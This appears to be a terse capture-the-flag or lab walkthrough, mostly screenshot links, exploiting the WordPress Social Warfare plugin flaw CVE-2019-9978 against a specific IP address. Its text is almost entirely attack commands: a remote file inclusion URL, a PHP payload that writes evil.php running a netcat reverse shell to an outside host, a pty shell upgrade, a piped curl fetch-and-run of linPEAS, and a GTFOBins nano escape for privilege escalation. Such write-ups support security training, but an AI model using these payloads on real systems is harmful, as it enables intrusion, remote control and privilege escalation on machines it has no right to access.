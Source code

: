 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9a3192bd-a9f7-4d49-8f55-cd7d413a3030)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/35afcfd3-c02c-428e-9a51-6170cbdc4c9b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dcf4b7cd-4083-4f46-acd5-abf2caea684b)

https://unit42.paloaltonetworks.com/exploits-in-the-wild-for-wordpress-social-warfare-plugin-cve-2019-9978/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d72555fb-cdea-465f-b7ef-88f3b3a0e9c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0f375f35-83c9-4ccf-8a0a-10fa53f67418)

http://62.173.140.174:18500/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://IP:8000/test1.txt

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3459d5a4-270b-45bd-b2dd-d2a41ec791f2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/50aef2fe-4e4f-4a44-bfec-e13b2ad3bce2)

<pre> fwrite(fopen("evil.php","w") ,"<?php system('nc -e /bin/sh ip 1234'); ?>");</pre>

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/aaa34946-da07-4486-a3da-e44dacb237de)

python3 -c 'import pty; pty.spawn("/bin/bash")'

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fbec7dca-fa7a-4af9-8552-6ffd26e251fd)

curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/477c0f35-9c63-43e8-aa78-b7f8706a03a9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/335aba48-2e63-4e31-91da-5d0e2f11e95e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c08cd01d-b873-4a3d-b91e-bcf9d46d57ec)

https://gtfobins.github.io/gtfobins/nano/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/610b153b-5db5-4261-b0c4-bacb185c25a9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/def0b1fa-f68b-4bd6-bd28-db7cae2a4c0a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e933bf3a-2280-44e7-98cc-186d0dc29943)

^R^X

reset; sh 1>&0 2>&0

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/44964b5b-bb9b-4a36-953d-32a149a49b47)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7e75a7d5-6e4e-4163-b967-b9fd69d444ac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fac8a32b-afa7-48cf-87ac-9ec865660f42)



